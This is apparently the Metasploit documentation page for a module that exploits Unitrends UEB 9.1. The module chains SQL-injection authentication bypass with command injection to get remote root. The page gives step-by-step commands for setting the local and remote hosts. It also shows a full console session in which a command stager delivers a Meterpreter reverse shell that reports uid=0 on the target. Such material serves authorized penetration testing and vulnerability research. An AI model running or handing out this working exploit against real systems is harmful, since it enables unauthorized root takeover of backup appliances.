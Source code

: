 ## Vulnerable Application

  Unitrends UEB 9 http api/storage remote root

  This exploit leverages a sqli vulnerability for authentication bypass,
  together with command injection for subsequent root RCE.

## Verification Steps

  1. ```use exploit/linux/http/ueb9_api_storage ```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```exploit```
  5. A meterpreter session should have been opened successfully

## Scenarios

### UEB 9.1 on CentOS 6.5

```
msf > use exploit/linux/http/ueb9_api_storage
msf exploit(ueb9_api_storage) > set rhost 10.0.0.230
rhost => 10.0.0.230
msf exploit(ueb9_api_storage) > set lhost 10.0.0.141
lhost => 10.0.0.141
msf exploit(ueb9_api_storage) > exploit

[*] Started reverse TCP handler on 10.0.0.141:4444
[*] 10.0.0.230:443 - pwn'ng ueb 9....
[*] Command Stager progress -  19.83% done (164/827 bytes)
[*] Command Stager progress -  39.30% done (325/827 bytes)
[*] Command Stager progress -  57.44% done (475/827 bytes)
[*] Command Stager progress -  75.45% done (624/827 bytes)
[*] Command Stager progress -  93.35% done (772/827 bytes)
[*] Command Stager progress - 110.88% done (917/827 bytes)
[*] Sending stage (826872 bytes) to 10.0.0.230
[*] Command Stager progress - 126.72% done (1048/827 bytes)
[*] Meterpreter session 1 opened (10.0.0.141:4444 -> 10.0.0.230:33674) at 2017-10-06 11:07:47 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```